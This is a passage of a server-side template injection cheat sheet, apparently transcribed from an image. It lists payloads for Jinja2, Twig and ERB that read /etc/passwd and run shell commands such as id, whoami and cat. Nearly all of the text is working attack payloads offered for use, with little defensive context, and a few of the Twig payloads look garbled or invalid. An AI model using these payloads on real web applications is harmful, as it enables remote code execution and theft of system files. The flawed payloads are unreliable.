 - **If the output is `49`, SSTI is likely present**.

---

## **2. Exploit Payloads by Engine**

### **A. Jinja2 (Python – Flask, Django)**

#### **Read Files**

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

#### **Remote Code Execution (RCE)**

```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

#### **List All Classes (Advanced Exploitation)**

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

- Helps identify useful classes (e.g., `subprocess.Popen`).

---

### **B. Twig (PHP)**

#### **Remote Code Execution**

```php
{{ _self.env.registerUndefinedFilterCallback("system") }}{{ _self.env.getFilter("id") }}
{{ _self.env.setCache("malicious_function","system") }}{{ _self.env.getCache("malicious_function")("cat /etc/passwd") }}
```

#### **Read Files**

```php
{{ file_get_contents('/etc/passwd') }}
```

---

### **C. ERB (Ruby – Rails, Sinatra)**

#### **Execute OS Commands**

```erb
<%= `id` %>
<%= system('cat /etc/passwd') %>
<%= IO.popen('whoami').readlines %>
```
